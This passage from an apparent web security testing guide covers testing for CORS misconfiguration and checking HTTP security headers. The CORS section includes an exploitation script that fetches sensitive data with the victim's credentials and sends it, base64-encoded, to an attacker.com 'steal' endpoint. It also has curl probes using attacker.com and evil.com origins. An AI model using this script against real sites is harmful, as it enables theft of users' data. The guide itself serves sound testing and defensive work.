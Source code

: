 ```javascript
    }
    // Sanitize data
    document.getElementById('output').textContent = event.data;
});
```

### CORS Misconfiguration

```bash
# Test for wildcard CORS
curl -H "Origin: http://attacker.com" \
     -H "Access-Control-Request-Method: POST" \
     -H "Access-Control-Request-Headers: X-Requested-With" \
     -X OPTIONS \
     http://target.com/api/data

# Vulnerable response:
# Access-Control-Allow-Origin: *
# Access-Control-Allow-Credentials: true

# Exploitation:
<script>
fetch('http://target.com/api/sensitive-data', {
    credentials: 'include'
})
.then(r => r.text())
.then(data => {
    fetch('http://attacker.com/steal?data=' + btoa(data));
});
</script>

# Test for origin reflection
curl -H "Origin: http://evil.com" http://target.com/api/data

# Vulnerable response:
# Access-Control-Allow-Origin: http://evil.com  (reflects any origin)
```

---

## Server-Side Security

### HTTP Security Headers

**Check security headers:**

```bash
curl -I http://target.com

# Essential security headers:
# ✅ Strict-Transport-Security: max-age=31536000; includeSubDomains
# ✅ X-Frame-Options: DENY
# ✅ X-Content-Type-Options: nosniff
# ✅ Content-Security-Policy: default-src 'self'
# ✅ X-XSS-Protection: 1; mode=block
# ✅ Referrer-Policy: no-referrer
# ✅ Permissions-Policy: geolocation=(), microphone=()
```
